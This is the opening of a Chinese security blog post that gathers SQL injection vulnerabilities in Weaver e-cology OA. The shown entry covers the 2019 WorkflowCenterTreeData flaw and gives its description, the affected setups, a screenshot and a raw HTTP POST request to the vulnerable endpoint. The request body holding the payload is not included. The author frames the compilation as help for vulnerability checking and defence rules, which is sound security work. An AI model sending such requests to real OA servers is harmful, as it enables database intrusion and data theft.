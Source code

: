 #  泛微SQL注入漏洞最全收集与整理  
原创 simeon的文章  小兵搞安全   2025-07-04 12:27  
  
##     某微的漏洞有些多，今天抽时间把其存在的sql注入漏洞全部进行整理，方便大家进行漏洞排查，文末整理了识别来自泛微sql注入的url地址及防护规则。  
## 2.1. SQL注入漏洞  
### 2.1.1泛微OA WorkflowCenterTreeData SQL注入漏洞  
  
1.漏洞描述  
  
2019年10月10日CNVD发布了泛微e-cology OA系统存在SQL注入漏洞。该漏洞是由于OA系统的WorkflowCenterTreeData接口中涉及Oracle数据库的SQL语句缺乏安全检查措施所导致的，任意攻击者都可借SQL语句拼接时机注入恶意payload，造成SQL注入攻击。  
  
2.影响版本  
  
使用Oracle数据库的泛微服务  
  
3.漏洞复现  
  
泛型微生态OA系统的WorkflowCenterTreeData接口在使用Oracle数据库时，由于内置sql语句分解不严密，导致其存在的sql注入漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEahET4D9upp71ocVSgPzGCFTKFo85DYRJibeVBk3pMXWsWaZkhvevRN81uCiaZCxnCZXQ53y492Kzw/640?wx_fmt=png&from=appmsg "")  
  
漏洞请求包  
```
POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1
Host: ip:port
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionId=abc49y8JvMcoqhSkCv02w; testBanCookie=test
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 2236
Upgrade-Insecure-Requests: 1

```